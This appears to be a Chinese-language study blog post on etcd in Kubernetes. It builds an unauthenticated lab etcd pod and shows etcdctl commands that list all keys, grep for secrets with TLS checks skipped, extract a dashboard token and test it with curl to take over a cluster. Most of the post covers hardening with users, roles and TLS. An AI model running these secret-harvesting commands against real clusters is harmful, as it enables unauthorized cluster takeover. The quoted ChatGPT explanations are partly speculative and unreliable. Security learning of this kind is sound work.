






# etcdctl

下载地址https://github.com/etcd-io/etcd/releases

因为我是ARM的MAC，所以就自己编译一个，然后放在/usr/local/bin下面

```
GOOS=darwin GOARCH=arm64 go build
```



在`.bash_profile`下添加环境变量export ETCDCTL_API=3

# 什么是ETCD

在才开始学习kubunetes的时候，我们简单介绍过etcd，它的目标是构建一个高可用的分布式键值数据库，用于服务发现，共享配置以及一致性保障等，以下是ChatGPT给出的解释

> etcd是一个开源的分布式键值存储系统，它被设计用于可靠地存储和检索分布式系统中的关键数据。etcd最初由CoreOS开发，并成为了Kubernetes的核心组件之一。
>
> etcd主要用于以下两个目的：
>
> 1. 分布式配置存储：etcd可以作为分布式系统中的共享配置存储。它允许用户存储各种类型的配置信息，如数据库连接字符串、应用程序配置、特性标志等。通过将配置信息存储在etcd中，系统中的各个组件可以方便地读取和更新配置，实现集中式的配置管理。
> 2. 分布式协调服务：etcd提供了强大的分布式协调功能，通过分布式锁、选举和通知机制，帮助系统中的多个节点协调和同步操作。例如，在Kubernetes中，etcd用于存储集群的状态信息、调度策略、Pod和服务的信息等。它确保了整个集群的一致性，并为Kubernetes的各个组件提供了一个共享的数据存储。
>
> etcd的设计目标是高可用性、一致性和可靠性。它采用了Raft一致性算法来实现分布式数据一致性，并支持数据的持久化和复制。etcd提供了简单的API接口和命令行工具，使得开发人员和管理员能够方便地与etcd进行交互和管理。
>
> 总结来说，etcd是一个分布式键值存储系统，用于存储和检索分布式系统中的关键数据和配置信息，并提供分布式协调和同步功能。在Kubernetes中，etcd被用作集群状态的存储和协调机制，对于集群的稳定性和一致性至关重要

etcd在k8s集群中扮演着集群后台数据库的角色

Kubernetes系统中一共有两个服务需要用到Etcd进行协同和与存储，分别是Kubernetes自身与网络插件 flannel

我们把docker-desktop默认启动的etcd导出来

`kubectl get pod etcd-docker-desktop  -n kube-system -o yaml > test-etcd.yaml`

```
apiVersion: v1
kind: Pod
metadata:
  annotations:
    kubeadm.kubernetes.io/etcd.advertise-client-urls: https://192.168.65.4:2379
    kubernetes.io/config.hash: daab091f7b57c624d51aae7ab076cb00
    kubernetes.io/config.mirror: daab091f7b57c624d51aae7ab076cb00
    kubernetes.io/config.seen: "2023-05-05T09:38:51.566950758Z"
    kubernetes.io/config.source: file
  creationTimestamp: "2023-05-05T09:38:55Z"
  labels:
    component: etcd
    tier: control-plane
  name: etcd-docker-desktop
  namespace: kube-system
  ownerReferences:
  - apiVersion: v1
    controller: true
    kind: Node
    name: docker-desktop
    uid: 4700cc05-7f95-428e-86fd-587611faceb1
  resourceVersion: "125433"
  uid: 22f83080-c28d-4635-a318-ea742cb521d4
spec:
  containers:
  - command:
    - etcd
    - --advertise-client-urls=https://192.168.65.4:2379
    - --cert-file=/run/config/pki/etcd/server.crt
    - --client-cert-auth=true
    - --data-dir=/var/lib/etcd
    - --experimental-initial-corrupt-check=true
    - --experimental-watch-progress-notify-interval=5s
    - --initial-advertise-peer-urls=https://192.168.65.4:2380
    - --initial-cluster=docker-desktop=https://192.168.65.4:2380
    - --key-file=/run/config/pki/etcd/server.key
    - --listen-client-urls=https://127.0.0.1:2379,https://192.168.65.4:2379
    - --listen-metrics-urls=http://127.0.0.1:2381
    - --listen-peer-urls=https://192.168.65.4:2380
    - --name=docker-desktop
    - --peer-cert-file=/run/config/pki/etcd/peer.crt
    - --peer-client-cert-auth=true
    - --peer-key-file=/run/config/pki/etcd/peer.key
    - --peer-trusted-ca-file=/run/config/pki/etcd/ca.crt
    - --snapshot-count=10000
    - --trusted-ca-file=/run/config/pki/etcd/ca.crt
    image: registry.k8s.io/etcd:3.5.6-0
    imagePullPolicy: IfNotPresent
    livenessProbe:
      failureThreshold: 8
      httpGet:
        host: 127.0.0.1
        path: /health?exclude=NOSPACE&serializable=true
        port: 2381
        scheme: HTTP
      initialDelaySeconds: 10
      periodSeconds: 10
      successThreshold: 1
      timeoutSeconds: 15
    name: etcd
    resources:
      requests:
        cpu: 100m
        memory: 100Mi
    startupProbe:
      failureThreshold: 24
      httpGet:
        host: 127.0.0.1
        path: /health?serializable=false
        port: 2381
        scheme: HTTP
      initialDelaySeconds: 10
      periodSeconds: 10
      successThreshold: 1
      timeoutSeconds: 15
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:
    - mountPath: /var/lib/etcd
      name: etcd-data
    - mountPath: /run/config/pki/etcd
      name: etcd-certs
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  hostNetwork: true
  nodeName: docker-desktop
  preemptionPolicy: PreemptLowerPriority
  priority: 2000001000
  priorityClassName: system-node-critical
  restartPolicy: Always
  schedulerName: default-scheduler
  securityContext:
    seccompProfile:
      type: RuntimeDefault
  terminationGracePeriodSeconds: 30
  tolerations:
  - effect: NoExecute
    operator: Exists
  volumes:
  - hostPath:
      path: /run/config/pki/etcd
      type: DirectoryOrCreate
    name: etcd-certs
  - hostPath:
      path: /var/lib/etcd
      type: DirectoryOrCreate
    name: etcd-data
status:
  conditions:
  - lastProbeTime: null
    lastTransitionTime: "2023-05-05T09:38:51Z"
    status: "True"
    type: Initialized
  - lastProbeTime: null
    lastTransitionTime: "2023-05-26T05:08:46Z"
    status: "True"
    type: Ready
  - lastProbeTime: null
    lastTransitionTime: "2023-05-26T05:08:46Z"
    status: "True"
    type: ContainersReady
  - lastProbeTime: null
    lastTransitionTime: "2023-05-05T09:38:51Z"
    status: "True"
    type: PodScheduled
  containerStatuses:
  - containerID: docker://2cc020c0ae1b8e8728129b4bb7948a3fa2feab3cfccb140350219388e72ff8d3
    image: registry.k8s.io/etcd:3.5.6-0
    imageID: docker://sha256:ef245802824036d4a23ba6f8b3f04c055416f9dc73a54d546b1f98ad16f6b8cb
    lastState:
      terminated:
        containerID: docker://9ad59541860f9e2e4b448bedac5008570bdd418d02ad9f90f14879cc4787e652
        exitCode: 255
        finishedAt: "2023-05-26T05:08:25Z"
        reason: Error
        startedAt: "2023-05-19T00:46:40Z"
    name: etcd
    ready: true
    restartCount: 4
    started: true
    state:
      running:
        startedAt: "2023-05-26T05:08:31Z"
  hostIP: 192.168.65.4
  phase: Running
  podIP: 192.168.65.4
  podIPs:
  - ip: 192.168.65.4
  qosClass: Burstable
  startTime: "2023-05-05T09:38:51Z"
```

有些东西在yaml中其实是不需要我们去写的

使用Docker Desktop默认搭建的Kubernetes集群中的etcd并没有直接暴露端口供外部访问。etcd作为Kubernetes的核心组件之一，通常在集群内部使用，并由其他组件通过Kubernetes API进行访问和管理。

在Docker Desktop上，etcd是作为一个内部容器运行的，并且没有直接暴露端口供外部访问。这是出于安全考虑的设计选择，以防止未经授权的访问和潜在的安全风险。

因此，如果你想直接访问etcd，例如通过命令行工具或其他客户端应用程序，你需要使用其他方法来访问etcd，如通过端口转发或使用Kubernetes的API来与etcd进行交互

# etcd未授权访问漏洞

## 环境搭建

我们不管那个默认的etcd，来通过yaml文件重新创建一个，那个默认的并没有暴露端口

```
apiVersion: v1
kind: Pod
metadata:
  name: etcd
  namespace: test
spec:
  containers:
    - name: etcd
      image: quay.io/coreos/etcd
      command:
        - etcd
      args:
        - "--data-dir=/etcd-data"
        - "--name=my-etcd"
        - "--initial-advertise-peer-urls=http://127.0.0.1:2380"
        - "--listen-peer-urls=http://0.0.0.0:2380"
        - "--advertise-client-urls=http://127.0.0.1:2379"
        - "--listen-client-urls=http://0.0.0.0:2379"
        - "--initial-cluster=my-etcd=http://127.0.0.1:2380"
      ports:
        - containerPort: 2379
          name: client
        - containerPort: 2380
          name: peer
      volumeMounts:
        - name: etcd-data
          mountPath: /etcd-data
  volumes:
    - name: etcd-data
      emptyDir: {}

```

`args` 字段指定了容器运行时的命令行参数。下面解释一下每个参数的含义：

- `--data-dir=/etcd-data`: 指定 etcd 数据存储的目录路径为 `/etcd-data`。在容器内部，etcd 将使用该目录来存储数据。
- `--name=my-etcd`: 设置 etcd 实例的名称为 "my-etcd"。该名称将用于唯一标识 etcd 成员，并在 etcd 集群中进行通信和协调。
- `--initial-advertise-peer-urls=http://<your-ip>:2380`: 指定 etcd 成员在集群中进行对等通信时的地址。你需要将 `<your-ip>` 替换为你的 IP 地址，以便其他 etcd 成员可以通过这个地址找到该成员。
- `--listen-peer-urls=http://0.0.0.0:2380`: 指定 etcd 成员监听对等通信请求的地址。这里使用 `0.0.0.0` 表示监听所有网络接口上的请求。
- `--advertise-client-urls=http://<your-ip>:2379`: 指定 etcd 成员向客户端公布的地址。你需要将 `<your-ip>` 替换为你的 IP 地址，以便客户端可以通过这个地址连接到 etcd。
- `--listen-client-urls=http://0.0.0.0:2379`: 指定 etcd 成员监听客户端请求的地址。这里使用 `0.0.0.0` 表示监听所有网络接口上的请求。
- `--initial-cluster=my-etcd=http://<your-ip>:2380`: 指定 etcd 集群中的初始成员信息。你需要将 `<your-ip>` 替换为你的 IP 地址，并使用适当的成员名称和对应的地址。

其中listen-peer-urls用于 etcd 集群同步信息并保持连接，而listen-client-urls则用于接收用户端发来的 HTTP请求

因为是docker-desktop搭建的环境，我本机不在集群内部，需要把端口转发到我本地


然后用etcdctl查看健康状态

```
etcdctl --endpoints=localhost:2379 endpoint health

etcdctl endpoint health	# 默认127.0.0.1
```

## 漏洞利用

刚才我们搭建的etcd的pod是没有任何安全配置的，默认是未授权即可访问的，可以直接用etcdctl访问etcd，无需去了解每个http api

对于etcd的版本，v2和v3也有很大的区别，例如我们验证的时候，是通过/v2/keys这个请求去验证的


网上随便找了一个，通过`/v2/keys?recursive=true`可以看到所有的key-value


etcd v3版本的api和v2版本完全不同，所以访问上面的url不会看到任何数据。

但是我看网上那个其实也是v3的版本，chatgpt是这样解释的

> 如果你正在使用 etcd v3 版本的集群，并通过访问 `/v2/keys` 路径来查看数据，有几个可能的原因导致你能够看到数据：
>
> 1. 兼容性：etcd v3 在设计上是向后兼容 etcd v2 的，因此一些旧的 API 路径可能仍然可以在 v3 版本中使用。虽然 `/v2/keys` 不是 v3 版本的官方 API 路径，但一些旧的客户端可能仍然使用该路径进行访问，并且在某些情况下仍然能够正常工作。
> 2. 配置或代理：有可能你的 etcd v3 集群中配置了某种代理或转发规则，将 `/v2/keys` 路径的请求转发到相应的处理程序。这可能是因为你的集群使用了第三方工具或自定义配置来处理旧版本的 etcd 请求。
> 3. 数据迁移或兼容性层：在某些情况下，可以使用额外的组件或工具将 etcd v2 数据迁移到 etcd v3，同时提供一个兼容层来处理旧版本的请求。这种情况下，你可能能够通过 `/v2/keys` 路径访问 etcd v3 中的数据。

这里主要简单介绍一下v3版本api的使用。

搭建好上面的测试环境后，可以执行以下命令，向etcd中插入几条测试数据：（最开始是什么都没有的）

```bash
etcdctl --endpoints=127.0.0.1:2379 put /testdir/testkey1 "Hello world1"
etcdctl --endpoints=127.0.0.1:2379 put /testdir/testkey2 "Hello world2"
etcdctl --endpoints=127.0.0.1:2379 put /testdir/testkey3 "Hello world3"

可以看到是通过键值对存储的，就像HashMap一样
```



执行下面命令读取etcd中存储的所有数据（key和value都会显示）

```
etcdctl --endpoints=127.0.0.1:2379 get / --prefix

etcdctl --endpoints=127.0.0.1:2379 get / --prefix --keys-only（只显示key）
```




查看指定的key

```
etcdctl --endpoints=127.0.0.1:2379 get /testdir/testkey1
```


限制结果条数

```
etcdctl --endpoints=127.0.0.1:2379 get / --prefix --limit=2
```


列出当前目标所属同一集群的所有节点

```
etcdctl --endpoints=127.0.0.1:2379 member list  
```

更多使用方法可以在etcdctl项目的README.md、READMEv2.md文档里查看，分别对应v3、v2版本api。




## 危害

可能我们这里只演示了获取键值等操作，看不出危害，其实这里etcd作为一个数据库里面肯定是会存储很多东西的，而且操作也看到不只这一点，还可以创建用户等，添加成员引入etcd集群等等

平常的话，通过这个漏洞，我们可以拿到token，接管k8s集群

```
etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://127.0.0.1:2379/ get / --prefix --keys-only|sort|uniq| grep secret

然后找到后再去看其值

etcdctl --insecure-transport=false --insecure-skip-tls-verify --endpoints=https://127.0.0.1:2379/ get 刚才找到的key
```

因为我这里是一个新的etcd，就用一张网上的图





拿到了dashboard的token，最后的 token 为 token? 和 #kubernetes.io/service-account-token 之间的部分，在下面没截完这个图

验证token的有效性

```
curl --header "Authorization: Token" -X GET https://172.16.200.70:6443/api -k
```


这样就是说明可以用这个token登陆dashboard接管k8s集群了

# 安全使用etcd

k8s的etcd都是v3，所以这里我们只讨论v3，其实对于未授权的方式，修补方式都是一样的，无非就是身份验证

这里有两种安全方案，分别是基于角色的访问控制和基于TLS的身份验证

## basic认证（基于角色的访问控制）

这种安全方案解决了用户认证和权限管理的问题。

etcd在2.1版本之前，是一个完全开放的系统，任何人都可以通过rest api对etcd数据进行增删改查。2.1版本之后，引入了用户认证功能，并且支持权限管理。但为了向前兼容，默认并未开启，需要手动启用。

etcd 2.x版本开启basic认证的相关命令和etcd 3.x版本有所区别，可以参考：https://blog.csdn.net/ucmir183/article/details/84454506

此处主要讲解etcd 3.x版本开启basic认证的过程。首先创建root用户：

```csharp
etcdctl --endpoints=127.0.0.1:2379 user add root
```

如图，输入密码，重复输入并确认密码后创建成功：

接下来开启认证

```
etcdctl --endpoints=127.0.0.1:2379 auth enable
```

开启后会自动为root账号创建一个root角色，该角色拥有全部的etcd数据的读写权限，接下来访问etcd就必须要带着账号密码

我们在来看看health，就发现需要认证了


带着账号密码访问

```
etcdctl --endpoints=127.0.0.1:2379 get / --prefix --user root:root
```


查看所有角色：

```lua
etcdctl --endpoints=127.0.0.1:2379 --user root:root role list
```

查看所有用户：

```lua
etcdctl --endpoints=127.0.0.1:2379 --user root:root user list
```


接下来创建一个新的角色用来区别root：

```csharp
etcdctl --endpoints=127.0.0.1:2379 --user root:root role add staff
```

授予staff角色/testdir/testkey1只读权限：

```bash
etcdctl --endpoints=127.0.0.1:2379 --user root:root role grant-permission staff read /testdir/testkey1
```

授予staff角色/pub/作为key前缀的所有数据读写权限：

```bash
etcdctl --endpoints=127.0.0.1:2379 --user root:root role grant-permission staff --prefix=true readwrite /pub/
```

查看staff角色权限：

```csharp
etcdctl --endpoints=127.0.0.1:2379 --user root:root role get staff
```


在创建完角色后，我们还需要根据这个角色创建一个用户：

```csharp
etcdctl --endpoints=127.0.0.1:2379 --user root:root user add staffuser1
```

同样需要输入要创建用户的密码。

授予staffuser1用户staff角色权限：

```lua
etcdctl --endpoints=127.0.0.1:2379 --user root:root user grant-role staffuser1 staff
```

创建后的staffuser1用户将拥有我们之前配置的staff角色的数据访问权限


然后我们用staffuser1这个用户查看一下里面的key


可以看到只能查看我们给定的，直接看所有的也会报错permission denied

除此之外，也可以用密钥的方式进行认证

```
# 赋予权限
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 user grant --roles staffuser1 staff
etcdctl --endpoints=127.0.0.1:2379 --user root:root user grant-role staffuser1 staff	# 不同认证方式
# 撤销权限
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 user revoke --roles staffuser1 staff
etcdctl --endpoints=127.0.0.1:2379 --user root:root user revoke-role staffuser1 staff
# 修改用户密码
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 user passwd staffuser1
etcdctl --endpoints=127.0.0.1:2379 --user root:root user passwd staffuser1
```


回收后，这个角色将什么权限都没有了

另外的一些操作

```
# 给 staff 角色赋予键 /testdir/testkey1 的读操作
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 role grant staff --path /testdir/testkey1 --read
# 给 staff 角色赋予键 /testdir/testkey1 的写操作
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 role grant staff --path /testdir/testkey1 --write
# 给 staff 角色赋予键 /testdir/testkey1 读写操作
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 role grant staff --path /testdir/testkey1 --rw
# 给 staff 角色赋予键 /testdir/testkey1 目录读写操作
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 role grant staff --path /testdir/testkey1/* --rw

# 收回 staff 角色对 /testdir/testkey1 的读操作
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 role revoke staff --path /testdir/testkey1 --read
# 收回 staff 角色对 /testdir/testkey1 的写操作
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 role revoke staff --path /testdir/testkey1 --write
# 收回 staff 角色对 /testdir/testkey1 的读写操作
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 role revoke staff --path /testdir/testkey1 --rw
# 收回 staff 角色对 /testdir/testkey1 目录的读写操作
etcdctl --ca-file /root/cfssl/ca.pem --endpoints=127.0.0.1:2379 role revoke staff --path /testdir/testkey1/* --rw
```

更多访问控制相关命令可参考官方文档：https://etcd.io/docs/v3.4/op-guide/authentication/

## 基于TLS的身份验证和数据传输

首先我们需要下载cfssl：https://github.com/cloudflare/cfssl/releases
cfssl 是 CloudFlare 的 PKI证书管理工具。

具体参考https://www.anquanke.com/post/id/236831#h3-6

# --client-cert-auth

在编写资源清单文件的时候，我们可以将--client-cert-auth写入到这个配置文件里面

在打开证书校验选项后，通过本地127.0.0.1:2379地址可以免认证访问Etcd服务，但通过其他地址访问要携带cert进行认证访问

在未使用client-cert-auth参数打开证书校验时，任意地址访问Etcd服务都不需要进行证书校验，此时Etcd服务存在未授权访问风险

当然如果需要证书验证的情况下，在证书泄漏的时候，我们也可以通过证书访问到etcd

参考https://zone.huoxian.cn/d/1153-k8s

# 写在最后

用docker-desktop搭建k8s集群比较适合基础的学习，但是对于后期，我觉得还是用虚拟机搭建一个kubunetes集群会比较方便，不然对于etcd这些的访问还得进行端口转发，因为我本机并不属于集群内部


参考链接

https://www.cnblogs.com/qtzd/p/k8s_etcd.html

https://www.wangan.com/p/11v748294758597c

https://www.cdxy.me/?p=827

https://www.anquanke.com/post/id/236831#h2-1

https://mp.weixin.qq.com/s/WJ14yyrLptQnRovFoGYv8A

https://zone.huoxian.cn/d/1153-k8s

https://blog.csdn.net/ucmir183/article/details/84454506